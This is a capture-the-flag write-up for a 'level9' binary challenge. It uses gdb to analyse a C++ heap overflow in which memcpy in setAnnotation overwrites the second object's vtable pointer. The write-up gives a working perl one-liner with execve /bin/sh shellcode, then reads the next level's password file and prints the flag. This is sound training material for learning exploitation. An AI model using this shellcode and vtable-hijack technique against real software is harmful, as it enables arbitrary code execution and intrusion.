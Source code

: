 solution level9:

-> our main exits if we don't provide the program with at least one argument

-> 2 objects of type N are allocated on the heap with the new operator
we can check their addresses:
(gdb) b *0x08048664
(gdb) run "ok"
(gdb) x $esp+0x10
0xbffff6e0:	0x0804a078
(gdb) x $esp+0x14
0xbffff6e4:	0x0804a008
There is an offset of 112 bytes between the two addresses.
At these addresses is a vptr (virtual pointer) set in the constructor to 0x08048848, which is the location of the virtual table for type N off by 8 bytes.
(gdb) x 0x08048848
0x8048848 <vtable for N+8>:	0x0804873a
The vptr points to the method called "_ZN1NplERS_", which is actually the virtual operator + of N.

-> the method "setAnnotation" is called on the first instance with argv[1] as parameter
This method uses memcpy, with the address of our instance + 4 bytes as destination, and argv[1] as source.
From disassembling the methods and constructor of class N, we deduce the content of an instance:
- virtual pointer (vptr), set to 0x08048848, pointing to operator +
- buffer of 100 bytes
- an int (4 bytes), initialized with the one we send to the constructor

-> next, main stores the address pointed to by the vptr of the second instance in register edx
This essentially puts the address of method "_ZN1NplERS_" in edx.

-> finally the program calls the function stored in edx

-> our instances are only 112 bytes apart, so we can overwrite into the second instance, into its vptr and buffer, with the memcpy method, before the program calls edx

-> there are no calls to system, or execve, or anything that could give us access to a shell, but we can inject a shellcode in the buffer

-> our buffer will write into the second instance after 112 - 4 = 108 bytes
We will fill our first buffer until we reach the second instance, and change some addresses so that edx points to our shellcode.

-> our buffer contains:
* the shellcode //(21 bytes) located at address 0x0804a008 + 4 bytes = 0x0804a00c
* 87 bytes //to reach address 0x0804a078 
* 0x0804a07c //address 0x0804a078 (vptr of second instance) -> overwrite its content with 0x0804a07c
* 0x0804a00c //address 0x0804a07c (buffer of our second instance) -> overwrite its content with 0x0804a00c (shellcode)

> ./level9 `perl -e 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "A" x 87 . "\x7c\xa0\x04\x08" . "\x0c\xa0\x04\x08"'`
> $ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
